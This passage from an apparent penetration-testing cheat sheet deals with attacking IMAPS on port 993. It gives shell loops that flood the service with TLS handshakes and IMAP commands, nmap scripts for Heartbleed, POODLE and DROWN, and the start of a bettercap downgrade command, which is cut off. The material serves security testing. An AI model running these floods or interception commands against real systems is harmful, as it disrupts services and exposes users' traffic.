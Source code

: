 *   **Tool:** \[\[OpenSSL]]

    ```bash
    while true; do openssl s_client -connect <target_ip>:993 & done
    ```
* **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

#### Excessive IMAP Commands

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    while true; do openssl s_client -connect <target_ip>:993 -quiet; echo "a1 LIST \"\" \"*\""; sleep 1; done
    ```
* **Description:** Send a high volume of IMAP commands to the server, consuming resources and potentially leading to a denial of service.

### Exploits

#### Heartbleed (CVE-2014-0160)

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap --script ssl-heartbleed -p 993 <target_ip>
    ```
* **Description:** Exploiting the Heartbleed vulnerability in OpenSSL to extract sensitive information from the server's memory.

#### POODLE (Padding Oracle On Downgraded Legacy Encryption)

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap --script ssl-poodle -p 993 <target_ip>
    ```
* **Description:** Exploit the POODLE vulnerability by forcing a downgrade to SSL 3.0 and performing a padding oracle attack.

#### DROWN (CVE-2016-0800)

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap --script ssl-drown -p 993 <target_ip>
    ```
* **Description:** Exploit the DROWN vulnerability by attacking servers that support both SSLv2 and TLS, potentially decrypting secure connections.

#### SSL/TLS Downgrade Attack

*   **Tool:** \[\[BetterCap Cheat Sheet]], \[\[SSLStrip Cheat Sheet]]

    ```bash
    bettercap -iface <interface> -T <target_ip> --proxy
